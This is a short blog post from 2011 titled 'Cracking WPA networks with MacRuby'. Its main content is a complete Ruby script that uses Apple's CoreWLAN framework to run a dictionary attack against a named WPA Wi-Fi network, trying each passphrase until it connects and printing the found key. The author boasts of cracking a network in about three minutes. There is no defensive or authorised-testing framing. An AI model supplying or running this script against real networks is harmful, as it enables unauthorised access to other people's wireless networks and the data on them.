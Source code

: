 title: Cracking WPA networks with MacRuby
created_at: 2011-12-14
----

With the release of Mac OSX 10.7 a new method was made available trough the `CoreWLAN` framework, allowing you to associate to networks with the specified passphrase. It's called `associateToNetwork`.

The point is that there's a lot of hype about WPA/WPA2 cracking lately, involving statistical calculation, multi-threaded and cloud-based bruteforce attacks just to conclude in how easy is to break into protected networks using a stupid dictionary attack like the following:

{:lang="ruby"}
    framework "CoreWLAN"

    iface = CWInterface.interface
    iface.disassociate

    wlans = iface.scanForNetworksWithParameters(nil, error: nil)
    wlan = wlans.find {|w| w.ssid == "WLAN_724A"}
    p [wlan.bssid, wlan.ssid, wlan.securityMode, wlan.wlanChannel.channelNumber]

    keys = File.read("./dictionary.txt").lines.to_a.reverse

    keys.each_with_index do |key, index|
      key.chop!
      puts "CURRENT KEY: #{key} (#{index+1}/#{keys.size})"
      if iface.associateToNetwork(wlan, password: key, error: nil)
        puts "KEY FOUND: #{key}"
        exit
      end
    end

And here are the results after barely 3 minutes of execution:

![File and Folder Scanner](/images/wpa-bruteforce.png)

Cool, uh?